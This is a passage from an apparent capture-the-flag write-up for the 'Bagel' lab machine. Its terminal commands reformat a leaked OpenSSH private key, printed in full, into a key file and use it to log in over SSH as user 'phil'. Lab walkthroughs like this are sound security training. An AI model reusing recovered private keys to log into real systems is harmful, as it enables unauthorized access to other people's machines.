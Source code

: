 

    oxdf@hacky$ export KEY='"-----BEGIN OPENSSH PRIVATE KEY-----\nb3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn\nNhAAAAAwEAAQAAAYEAuhIcD7KiWMN8eMlmhdKLDclnn0bXShuMjBYpL5qdhw8m1Re3Ud+2\ns8SIkkk0KmIYED3c7aSC8C74FmvSDxTtN
    Od3T/iePRZOBf5CW3gZapHh+mNOrSZk13F28N\ndZiev5vBubKayIfcG8QpkIPbfqwXhKR+qCsfqS//bAMtyHkNn3n9cg7ZrhufiYCkg9jBjO\nZL4+rw4UyWsONsTdvil6tlc41PXyETJat6dTHSHTKz+S7lL4wR/I+saVvj8KgoYtDCE1sV\nVftUZhkFImSL2ApxIv7tYmeJbombYff1SqjHAkdX9VKA0gM0zS7but3/klYq6g3l+NEZOC\nM0/I+30oaBoXCjvup
    MswiY/oV9UF7HNruDdo06hEu0ymAoGninXaph+ozjdY17PxNtqFfT\neYBgBoiRW7hnY3cZpv3dLqzQiEqHlsnx2ha/A8UhvLqYA6PfruLEMxJVoDpmvvn9yFWxU1\nYvkqYaIdirOtX/h25gvfTNvlzxuwNczjS7gGP4XDAAAFgA50jZ4OdI2eAAAAB3NzaC1yc2\nEAAAGBALoSHA+yoljDfHjJZoXSiw3JZ59G10objIwWKS+anYcPJtUXt1HftrPEiJJJNCpi\nG
    BA93O2kgvAu+BZr0g8U7TTnd0/4nj0WTgX+Qlt4GWqR4fpjTq0mZNdxdvDXWYnr+bwbmy\nmsiH3BvEKZCD236sF4SkfqgrH6kv/2wDLch5DZ95/XIO2a4bn4mApIPYwYzmS+Pq8OFMlr\nDjbE3b4perZXONT18hEyWrenUx0h0ys/ku5S+MEfyPrGlb4/CoKGLQwhNbFVX7VGYZBSJk\ni9gKcSL+7WJniW6Jm2H39UqoxwJHV/VSgNIDNM0u27rd/5JWKuoN5fjRG
    TgjNPyPt9KGga\nFwo77qTLMImP6FfVBexza7g3aNOoRLtMpgKBp4p12qYfqM43WNez8TbahX03mAYAaIkVu4\nZ2N3Gab93S6s0IhKh5bJ8doWvwPFIby6mAOj367ixDMSVaA6Zr75/chVsVNWL5KmGiHYqz\nrV/4duYL30zb5c8bsDXM40u4Bj+FwwAAAAMBAAEAAAGABzEAtDbmTvinykHgKgKfg6OuUx\nU+DL5C1WuA/QAWuz44maOmOmCjdZA1M+vmzbzU+NR
    MZtYJhlsNzAQLN2dKuIw56+xnnBrx\nzFMSTw5IBcPoEFWxzvaqs4OFD/QGM0CBDKY1WYLpXGyfXv/ZkXmpLLbsHAgpD2ZV6ovwy9\n1L971xdGaLx3e3VBtb5q3VXyFs4UF4N71kXmuoBzG6OImluf+vI/tgCXv38uXhcK66odgQ\nPn6CTk0VsD5oLVUYjfZ0ipmfIb1rCXL410V7H1DNeUJeg4hFjzxQnRUiWb2Wmwjx5efeOR\nO1eDvHML3/X4WivARfd7XMZZy
    fB3JNJbynVRZPr/DEJ/owKRDSjbzem81TiO4Zh06OiiqS\n+itCwDdFq4RvAF+YlK9Mmit3/QbMVTsL7GodRAvRzsf1dFB+Ot+tNMU73Uy1hzIi06J57P\nWRATokDV/Ta7gYeuGJfjdb5cu61oTKbXdUV9WtyBhk1IjJ9l0Bit/mQyTRmJ5KH+CtAAAA\nwFpnmvzlvR+gubfmAhybWapfAn5+3yTDjcLSMdYmTcjoBOgC4lsgGYGd7GsuIMgowwrGDJ\nvE1yAS1vC
    est9D51grY4uLtjJ65KQ249fwbsOMJKZ8xppWE3jPxBWmHHUok8VXx2jL0B6n\nxQWmaLh5egc0gyZQhOmhO/5g/WwzTpLcfD093V6eMevWDCirXrsQqyIenEA1WN1Dcn+V7r\nDyLjljQtfPG6wXinfmb18qP3e9NT9MR8SKgl/sRiEf8f19CAAAAMEA/8ZJy69MY0fvLDHT\nWhI0LFnIVoBab3r3Ys5o4RzacsHPvVeUuwJwqCT/IpIp7pVxWwS5mXiFFVtiwjeHq
    psNZK\nEU1QTQZ5ydok7yi57xYLxsprUcrH1a4/x4KjD1Y9ijCM24DknenyjrB0l2DsKbBBUT42Rb\nzHYDsq2CatGezy1fx4EGFoBQ5nEl7LNcdGBhqnssQsmtB/Bsx94LCZQcsIBkIHXB8fraNm\niOExHKnkuSVqEBwWi5A2UPft+avpJfAAAAwQC6PBf90h7mG/zECXFPQVIPj1uKrwRb6V9g\nGDCXgqXxMqTaZd348xEnKLkUnOrFbk3RzDBcw49GXaQlPPSM4
    z05AMJzixi0xO25XO/Zp2\niH8ESvo55GCvDQXTH6if7dSVHtmf5MSbM5YqlXw2BlL/yqT+DmBsuADQYU19aO9LWUIhJj\neHolE3PVPNAeZe4zIfjaN9Gcu4NWgA6YS5jpVUE2UyyWIKPrBJcmNDCGzY7EqthzQzWr4K\nnrEIIvsBGmrx0AAAAKcGhpbEBiYWdlbAE=\n-----END OPENSSH PRIVATE KEY-----"'
    oxdf@hacky$ echo $KEY | jq -r . | tee ~/keys/bagel-phil                                                 
    -----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
    NhAAAAAwEAAQAAAYEAuhIcD7KiWMN8eMlmhdKLDclnn0bXShuMjBYpL5qdhw8m1Re3Ud+2
    s8SIkkk0KmIYED3c7aSC8C74FmvSDxTtNOd3T/iePRZOBf5CW3gZapHh+mNOrSZk13F28N
    ...[snip]...
    eHolE3PVPNAeZe4zIfjaN9Gcu4NWgA6YS5jpVUE2UyyWIKPrBJcmNDCGzY7EqthzQzWr4K
    nrEIIvsBGmrx0AAAAKcGhpbEBiYWdlbAE=
    -----END OPENSSH PRIVATE KEY-----



It works:



    oxdf@hacky$ ssh -i ~/keys/bagel-phil phil@bagel.htb
    Last login: Wed May 31 16:26:35 2023 from 10.10.14.6
    [phil@bagel ~]$



And I can get `user.txt`:
